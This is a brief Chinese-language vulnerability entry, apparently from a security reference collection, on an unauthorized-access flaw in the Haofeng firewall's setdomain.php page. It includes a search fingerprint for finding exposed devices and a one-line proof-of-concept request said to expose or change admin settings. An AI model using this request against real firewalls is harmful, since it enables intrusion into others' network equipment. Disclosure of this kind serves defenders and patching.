

# 皓峰防火墙 setdomain.php 越权访问漏洞

## 漏洞描述

皓峰防火墙 setdomain.php 页面存在越权访问漏洞，攻击者通过漏洞可修改管理员等配置信息

## 漏洞影响

<a-checkbox checked>皓峰防火墙</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="皓峰防火墙系统登录"</a-checkbox></br>

## 漏洞复现

登录页面


验证POC

```php
/setdomain.php?action=list
```




若有收获，就点个赞吧